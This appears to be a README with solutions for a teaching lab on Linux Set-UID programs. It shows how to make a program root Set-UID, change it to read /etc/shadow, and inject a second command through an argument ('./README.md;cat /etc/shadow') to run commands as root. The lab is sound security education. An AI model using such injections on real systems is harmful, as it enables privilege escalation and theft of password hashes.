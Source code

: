 # SetUIDLab

Powerpoint is accessable here: https://docs.google.com/presentation/d/1hOcF7G4ISqTirPIZHpGaK1XkCXQ9ZMCZWoF4cEokwk0/edit?usp=sharing


# Solutions to the tasks:
## Don't Look Unless you're really stuck!

## Part 1
Task 1: Compile PrintMyUID.c into the program PrintMyUID.
`
	$ gcc PrintMyUID.c -o PrintMyUID
`
Task 2: Run the PrintMyUID program.
`
	$ ./PrintMyUID
`
Task 3: Change PrintMyUID to a root Set-UID program.
`
sudo chown root PrintMyUID
sudo chmod 4755 PrintMyUID
`
Task 4: Run the PrintMyUID program again and observe the changes.
`
	$ ./PrintMyUID
`

Task 5 (Optional): Modify PrintMyUID.c to print the contents of the /etc/shadow file. Repeat steps 1-4.

`
Change system("whoami"); to system("cat /etc/shadow");
`



## Part 2

Task 1: Compile Exploitable.c and make it a Set-UID program with compile-exploitable.sh
`
./compile-exploitable.sh
`

Task 2: Make the Exploitable program execute arbitrary commands as root using only command line arguments.
`
./Exploitable "./README.md;cat /etc/shadow"
`



